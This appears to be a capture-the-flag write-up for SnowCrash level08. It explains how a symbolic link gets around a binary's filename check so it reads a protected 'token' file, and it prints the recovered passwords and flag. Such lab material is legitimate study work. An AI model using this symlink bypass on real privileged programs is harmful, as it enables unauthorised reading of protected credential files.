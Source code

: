 ## 1 Watch files

``` bash 
level08@SnowCrash:~$ ls
level08  token
```
Understanding the Binary
Executable Usage:
## 2 executing 

``` bash
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
```

 This indicates that the program expects a file as an argument.
Error Messages:

The binary includes error messages such as:
`You may not access '%s'`

``` bash
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
```

These messages suggest that the program is designed to read the specified file and checks access permissions.

The string token appears multiple times in the binary's strings output. This suggests that this file is crucial to the binary's functionality.
## 3 Initial Attempt:

Executing ./level08 token results in the message: You may not access 'token'. This indicates that the program enforces access restrictions on the token file.

* Using Symbolic Links: 

To bypass the direct access restrictions, create a symbolic link to the token file:
``` bash
level08@SnowCrash:~$ ln -s ~/token /tmp/8
``` 
## 4 After creating the symbolic link, you can successfully read the file by executing:

``` bash
level08@SnowCrash:~$ ./level08 /tmp/8
quif5eloekouj29ke0vouxean
```

The program should now operate correctly and allow access to the contents of the token file.

The level08 executable requires a file to read as an argument, and while it restricts direct access to the token file, using a symbolic link provides a valid method to interact with it successfully.

## 5 Enter Level 09
``` bash
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
flag08@SnowCrash:~$ su level09
Password: 25749xKZ8L7DkSCwJkT9dyv6f
```

